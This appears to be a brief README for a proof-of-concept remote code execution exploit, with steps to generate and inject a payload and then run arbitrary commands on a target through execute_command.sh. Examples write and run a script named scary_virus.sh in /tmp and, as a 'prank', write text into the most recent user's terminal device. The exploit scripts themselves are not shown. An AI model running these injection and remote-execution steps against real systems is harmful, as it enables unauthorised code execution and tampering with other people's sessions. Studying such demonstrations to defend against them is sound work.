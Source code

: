 # Setup
```console
npm install
```

# Run
```console
npm run server
```

# Inject
```console
npm run generate_payload
./inject.sh
```

# Exploit
## Run Remote Code
```console
./execute_command.sh 'echo "echo asdf" > /tmp/scary_virus.sh'
./execute_command.sh '/tmp/scary_virus.sh'
```

## Prank
```console
./execute_command.sh 'echo hi >> /dev/pts/$(ls -t /dev/pts | head -n 1)'
```
